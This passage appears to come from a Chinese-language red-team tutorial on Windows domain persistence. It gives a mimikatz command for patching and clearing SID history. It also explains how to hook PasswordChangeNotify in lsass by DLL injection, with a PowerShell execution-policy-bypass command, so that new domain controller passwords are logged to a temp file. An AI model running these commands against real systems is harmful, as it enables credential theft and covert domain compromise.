| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::clear /sam:test" "exit"<br>``` |

### [](#25-hook-passwordchangenotify)2.5 Hook PasswordChangeNotify

#### [](#251-%E8%83%8C%E6%99%AF)2.5.1 背景

在修改域控密码时会进行如下同步操作：

1.  当修改域控密码时，LSA 首先调用 PasswordFileter 来判断新密码是否符合密码复杂度要求
2.  如果符合，LSA 接着调用 PasswordChangeNotify 在系统上同步更新密码

函数 PasswordChangeNotify 存在于 rassfm.dll

rassfm.dll 可理解为 Remote Access Subauthentication dll，只存在于在 Server 系统下，xp、win7、win8 等均不存在

#### [](#252-%E7%89%B9%E7%82%B9)2.5.2 特点

1.  不需要重启
2.  不需要修改注册表
3.  甚至不需要在系统放置dll

#### [](#253-%E5%AE%9E%E7%8E%B0)2.5.3 实现

##### [](#2531-hook-dll)2.5.3.1 Hook DLL

1.  为 PasswordChangeNotify 创建一个 inline Hook，将初始函数重定向到 PasswordChangeNotifyHook
    
2.  在 PasswordChangeNotifyHook 中实现记录密码的操作，然后重新将控制权交给 PasswordChangeNotify
    

##### [](#2532-dll-%E6%B3%A8%E5%85%A5)2.5.3.2 DLL 注入

利用 Powershell tricks 中的 Process Injection 将我们自己编写的 dll 注入到 lsass 进程，实现 Hook 功能

[https://github.com/3gstudent/Hook-PasswordChangeNotify](https://github.com/3gstudent/Hook-PasswordChangeNotify)

管理员权限执行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1<br>``` |

在 Server 2012 R2 x64 下，手动修改域控密码后 在 `C:\Windows\Temp` 下可以找到 passwords.txt，其中记录了新修改的密码
